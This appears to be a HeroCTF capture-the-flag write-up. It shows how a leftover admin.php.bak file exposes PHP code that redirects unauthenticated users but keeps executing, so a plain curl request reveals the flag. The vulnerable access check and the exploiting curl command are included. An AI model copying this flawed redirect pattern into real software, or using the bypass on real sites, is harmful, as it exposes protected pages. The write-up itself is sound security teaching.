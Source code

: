 # You Should Die - HeroCTF.fr

### You will need

 - Web browser
 - Curl command

### Solution

We go to the address given to us - [http://chall1.heroctf.fr:9000/](http://chall1.heroctf.fr:9000/).
Here, if we open DevTools, we can find interesting comment inside the `body` element.
```html
<body id="page-top">
  <!--
      For developper :
          Do not forget to remove admin.php.bak !
      
      Regards,
      Security Team
  -->
```
We have got the information that `admin.php.bak` is not removed, so we go there, and look how admin.php code looks like - [http://chall1.heroctf.fr:9000/admin.php.bak](http://chall1.heroctf.fr:9000/admin.php.bak)
```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```
Here we can see that flag can be accessed under the `/admin.php`. Code checks if we are logged in an if we are not it **redirects** us to /index.php. Redirect is key word here, because we can fetch this address with `curl`, which ignores `Location` header.

```
$ curl http://chall1.heroctf.fr:9000/admin.php
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

​​	Hero{**r3d1r3c710n_c4n_b3_d4n63r0u5_57395379**}

#### Credits

- Writeup by [mble](https://ctftime.org/user/93848)
- Solved by [mble](https://ctftime.org/user/93848)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + mble